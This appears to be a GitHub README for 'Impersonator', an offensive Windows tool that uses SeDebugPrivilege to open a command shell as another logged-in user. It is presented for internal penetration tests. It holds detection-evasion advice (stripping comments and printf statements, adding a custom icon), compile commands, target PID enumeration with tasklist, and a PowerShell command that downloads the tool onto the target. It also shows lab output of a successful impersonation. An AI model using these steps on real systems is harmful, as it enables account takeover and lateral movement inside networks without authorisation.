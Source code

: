 ### Impersonator
---------------------------------------
This C program enables a user with local administrator rights on a Windows machine to launch a CMD console under the context of another logged-in Windows account (impersonation), leveraging the 'SeDebugPrivilege'. 
The program requires the process ID (PID) of the target account's session as an input argument.

It can be particularly useful during internal penetration tests, when you have full control over a Windows server and aim to compromise another privileged account currently logged into the system.

#### USAGE
- STEP 1 - Compile the source code.  
<i/> OPSEC advice: remove all existing comments and most 'printf' statements from the source code before compiling. </i>
```
Example with Visual Studio 2022 Developer Command Prompt v17.14.14:
-------------------------------------------------------------------
Basic:
+ c:\path-to-project\Impersonator> cl impersonator.c /link advapi32.lib
With an icon:
+ c:\path-to-project\Impersonator> echo IDI_ICON1 ICON "myicon.ico" > appicon.rc
+ c:\path-to-project\Impersonator> rc appicon.rc
+ c:\path-to-project\Impersonator> cl impersonator.c /link advapi32.lib /OUT:impersonator.exe appicon.res
```

- STEP 2 - On your target Windows machine, run the command 'tasklist -v' to display all running processes along with detailed information.
The objective is to identify all the PIDs belonging to the other logged-in Windows account that you want to impersonate.
```
Example
--------
C:\Temp> tasklist -v

Image Name                     PID Session Name        Session#    Mem Usage Status          User Name                                              CPU Time Window Title   
========================= ======== ================ =========== ============ =============== ================================================== ============ ========================================================================
<SNIP>
cmd.exe                      16196 Console                    4      5,528 K Running         LAB\pentester                                            0:00:00 Administrator: Command Prompt - tasklist  -v
conhost.exe                  14620 Console                    4     22,828 K Running         LAB\pentester                                            0:00:01 N/A            
cmd.exe                      11052 Console                    4      5,324 K Running         LAB\targetprivuser                                       0:00:00 C:\Windows\system32\cmd.exe 
conhost.exe                  12432 Console                    4     17,696 K Running         LAB\targetprivuser                                       0:00:00 N/A            
notepad.exe                  13044 Console                    4     15,004 K Running         LAB\targetprivuser                                       0:00:00 Sans titre - Bloc-notes             
<SNIP>
```

- STEP 3 - Upload and use the tool 'impersonator' to launch a CMD console under the context of the other logged-in Windows account that you want to impersonate.
```
Example - Acting as the account 'LAB\pentester' (admin rights), we impersonate the account 'LAB\targetprivuser'
----------------------------------------------------------------------------------------------------------------
C:\Temp> powershell -c "wget -uri https://URL/impersonator.exe - OutFile C:\temp\impersonator.exe"

C:\Temp> impersonator.exe 13044
[+] SeDebugPrivilege enabled.
[+] cmd.exe launched as target user!

=> A new CMD is launched as 'LAB\targetprivuser'
   ----------------------------------------------
	 Microsoft Windows [version 10.0.19045.6332]
	 (c) Microsoft Corporation. Tous droits réservés.

	 C:\Windows\system32> whoami
	 LAB\targetprivuser
<SNIP>
```

#### LICENSE
GNU General Public License v3.0
